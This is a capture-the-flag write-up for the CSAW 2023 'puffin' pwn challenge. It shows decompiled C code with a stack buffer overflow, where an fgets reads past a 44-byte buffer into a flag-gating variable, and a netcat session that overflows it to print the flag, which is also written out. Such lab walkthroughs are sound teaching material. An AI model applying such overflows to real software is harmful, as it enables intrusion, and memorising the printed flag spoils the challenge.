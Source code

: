 # puffin

- source code: [CSAW-CTF-2023-Quals/pwn/puffin at main · osirislab/CSAW-CTF-2023-Quals](https://github.com/osirislab/CSAW-CTF-2023-Quals/tree/main/pwn/puffin)

## Setup

```bash
docker build -t csaw23/puffin .
docker run --rm -p 31140:31140 csaw23/puffin
```

## Flag

csawctf{m4ybe_i_sh0u1dve_co113c73d_mor3_rock5_7o_impr355_her....} 

## Solution

`main` decompiled with Ghidra:

```c
undefined8 main(void)

{
  char local_38 [44];
  int local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  fflush(stdout);
  fflush(stdin);
  local_c = 0;
  printf("The penguins are watching: ");
  fgets(local_38,0x30,stdin);
  if (local_c == 0) {
    puts(&DAT_0010099e);
  }
  else {
    system("cat /flag.txt");
  }
  return 0;
}
```

- Buffer Overflow occurs because local_38 buffer size is 44 (0x2c) but `fgets` input size is 48 (0x30)
- Overwrite the local_c value and execute `system("cat /flag.txt")`

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/puffin# nc localhost 31140
The penguins are watching: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
csawctf{m4ybe_i_sh0u1dve_co113c73d_mor3_rock5_7o_impr355_her....} 
```

## Referneces

- [In what order does C put local variables on the stack frame? - Quora](https://www.quora.com/In-what-order-does-C-put-local-variables-on-the-stack-frame)
